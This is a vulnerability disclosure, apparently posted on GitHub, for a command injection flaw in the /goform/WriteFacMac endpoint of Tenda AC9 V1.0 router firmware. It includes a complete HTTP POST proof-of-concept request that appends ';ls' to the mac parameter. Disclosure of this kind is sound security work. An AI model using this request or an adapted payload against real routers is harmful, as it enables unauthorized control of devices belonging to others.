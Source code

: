 # Tenda AC9 V1.0 Command Injection Vulnerability in WriteFacMac

## Overview
Tenda AC9 V1.0 Router is a consumer-grade wireless router supporting advanced wireless features, firewall, and device management capabilities. A command injection vulnerability exists in the `formWriteFacMac` function, which handles requests to the `/goform/WriteFacMac` endpoint. Attackers can inject arbitrary system commands via the `mac` parameter, leading to unauthorized device control or complete compromise.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC9 V1.0 Router
- **Firmware**: V15.03.05.19(6318)
- **Firmware Download**: [https://www.tenda.com.cn/download/detail-2681.html]
- **Endpoint**: `/goform/WriteFacMac`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description
The `formWriteFacMac` function processes POST requests to `/goform/WriteFacMac`. It extracts the user-controlled `mac` parameter via `sub_2B9D4` (a parameter parsing function) and passes it directly to `doSystemCmd`. In `doSystemCmd`, the parameter is interpolated into a system command (e.g., `cfm mac %s`) without any input sanitization. The command is executed directly on the system. By injecting special characters (e.g., `;`), attackers can escape the command context and execute arbitrary system commands on the router.
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
## Proof of Concept (PoC)

### PoC 1: Execute `ls` Command
```
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.xxx.xxx
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 24
mac=00:01:02:11:22:33;ls
```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
